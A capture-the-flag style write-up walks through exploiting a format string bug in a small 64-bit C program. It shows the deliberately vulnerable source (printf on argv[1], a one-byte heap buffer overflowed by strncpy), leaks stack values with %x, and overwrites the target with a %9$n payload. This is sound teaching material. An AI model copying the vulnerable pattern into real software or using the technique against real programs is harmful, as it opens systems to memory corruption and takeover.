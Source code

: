 To start off, the source code differs for this challenge differs from f6. This is because in order to perform the same exploit, you would need to input null bytes ("\x00") to get the proper formatting, however since argv uses null bytes to seperate items I wasn't able to input null bytes (I would encourage you to compile the code from f6 as 64 bit, and try to pwn it). So for this I came up with new source code.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


int main(int argc, char **argv)
{
	char *target;
	target = malloc(sizeof(char));
	strncpy(target, "Wait this isn't a lie?", 22);
	printf(argv[1]);
    puts("Now that your celebration has come, how do you feel?");
	printf("%p\n", target);
	printf("%s\n", target);

	if (strncmp(target, "Wait this isn't a lie?", 22) != 0)
	{
		puts("I bet you fell cheated, don't you? Level Cleared!\n");
	}
}
```

So as we can see here, we will just need to change the string pointed to by target. Fortunately for us the address that we need to write to it is stored on the stack, and even printed. Let's find it.

```
$	./f6_64 %x.%x.%x.%x.%x.%x.%x.%x.%x.%x
602020.73692073.74696157.602000.d.ffffdf38.400510.ffffdf30.602010.4006c0Now that your celebration has come, how do you feel?
0x602010
Wait this isn't a lie?
```

So we can see all of the QWORDS that are within an offset of 10. We see that the address the binary printed out for us is 0x602010, which we can see has an offset of 9. Let's verify that.  

```
$	./f6_64 %9\$x
602010Now that your celebration has come, how do you feel?
0x602010
Wait this isn't a lie?
```

As you can see with that, we have the right offset. Also the reason why I put the backslash befor the "$" character is we needed to escape that since it is a special character, otherwise it wouldn't be interpreted as a character. Now that we have the correct offset, let's write to it.

```
$	./f6_64 %9\$n
Now that your celebration has come, how do you feel?
0x602010

I bet you fell cheated, don't you? Level Cleared!

```

As you can see, we were able to successfully write to it. What we wrote to it didn't matter as long as it changed the value of the first 22 characters, which it did. And just like that we pwned the binary!